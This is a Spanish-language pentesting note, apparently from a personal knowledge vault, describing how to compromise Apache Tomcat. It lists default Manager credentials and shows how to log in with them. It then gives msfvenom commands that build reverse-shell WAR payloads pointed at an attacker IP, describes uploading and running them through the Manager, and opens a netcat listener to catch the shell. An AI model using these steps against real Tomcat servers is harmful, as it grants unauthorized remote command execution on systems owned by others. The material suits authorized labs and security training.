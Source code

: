 Apache Tomcat es un servidor de aplicaciones web de código abierto desarrollado por la Fundación Apache. Está diseñado para ejecutar aplicaciones web basadas en Java y sirve como contenedor de servlets y motor de páginas JSP (JavaServer Pages).

puerto  por defecto: 8080
web por defecto:

![[Tomcat - Web por defecto de Tomcat.png]]


Tenemos que entrar en: Manager webapp
y nos pide credenciales
usuario:Contraseña


si le damos a cancelar nos puede enseñar la siguiente página: donde nos da el usuario y la contraseña de acceso el propio tomcat

![[Tomcat - pagina cancel default credentials.png]]

las credenciales por defecto las encontramos en la web: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
- admin:admin
- mcat:tomcat
- admin:
- admin:s3cr3t
- tomcat:s3cr3t
- admin:tomcat
Pagina por defecto del manager de tomcat:
![[Tomcat - Web por defecto manager de Tomcat.png]]



 Una vez en esta web buscamos el aparatado WAR file to deploy:
 ![[Tomcat - WAR file to deploy.png]]

Vamos a subir un fichero con un payload creado con msfvenom[[MSFVENOM]]
Para ello el payload será:
```sh fold:"msfvenom payload tomcat raw file default reverse 1"
msfvenom -p java/shell_reverse_tcp LHOST={IP_atacante} LPORT={Puerto_escucha} -f war -o reverse1.war
```


```sh fold:"msfvenom payload tomcat raw file default reverse 2"
msfvenom -p java/jsp_shell_reverse_tcp LHOST={IP_atacante} LPORT={Puerto_escucha} -f war -o reverse2.war
```

Payload reverse war:

![[Tomcat - payloads generate.png]]

Subimos nuestros ficheros creados al servidcdor de tomcat y nso aparecen de la siguiente forma:
![[Tomcat - Files uploaded.png]]

Ahora solo nos falta ponernos a la escucha por el puerto que hemos seleccionado a la hora de crear el payload 

```sh fold:"Ponerse a la escucha con netcat en el puerto 443"
nc -nlvp 443
```

y ejecutamos el fichero desde el manager y deberíamos de recibir la conexión:
![[Tomcat - Conexion.png]]


Ahora faltaría un tratamiento de la TTY [[Tratamiento de la TTY]]